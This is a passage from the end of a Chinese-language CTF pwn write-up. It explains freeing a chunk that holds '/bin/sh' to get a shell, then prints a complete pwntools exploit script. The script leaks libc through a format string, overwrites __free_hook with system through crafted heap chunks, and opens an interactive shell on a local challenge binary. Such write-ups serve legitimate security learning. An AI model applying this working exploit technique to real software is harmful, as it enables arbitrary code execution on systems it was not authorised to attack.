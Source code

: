 ![image-20220514154108694](/upload/img/image-20220514154108694.png)

最后我们要free掉一个chunk，这个chunk里面装的都有什么不重要，只需要让这个chunk的地址去指向/bin/sh这个字符串即可（是指向的字符串，而非字符串的地址，因为system需要的是一个指向/bin/sh的地址，chunk的地址已经是一个指针了，我们并不需要再传一个指针，只需要写入字符串/bin/sh即可）

![image-20220514155318872](/upload/img/image-20220514155318872.png)

最后执行free即可获取shell。

## EXP:

```python
from pwn import *
context.log_level='debug'
p=process('./a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
gdb.attach(p,'b *$rebase(0xec6)\nc')#ec6
p.recvuntil('first,tell me your name.\n')
p.send('%20$p')
p.recvuntil('\x78')
leak_addr=int(p.recv(12),16)
print('leak_addr------------->',hex(leak_addr))

sleep(0.2)
libc_base=leak_addr-0x21c87
print('libc_base------------->',hex(libc_base))
free_hook=libc_base+libc.symbols['__free_hook']
system_addr=libc.symbols['system']+libc_base
fake_chunk1='/bin/sh\x00'+p64(0)*3+p64(free_hook)
fake_chunk2=p64(system_addr)

p.recvuntil('How many pieces of data?\n')
p.sendline('2')
p.send(fake_chunk1)
p.send(fake_chunk2)
sleep(0.2)

p.sendline('8')
p.recvuntil('[+++++++++++++++++++++++++++++++++++++++++++++++++++++++++]\n')
p.sendline('167776256')#malloc(0)
p.sendline('167776257')#malloc(1)
p.sendline('201326593')#free(1)
p.sendline('184549376')#memcpy(0)
p.sendline('167776257')#malloc(1)
p.sendline('167776258')#malloc(2)
p.sendline('184614914')#memcpy(2)
p.sendline('201326592')#free(0)
p.interactive()

```






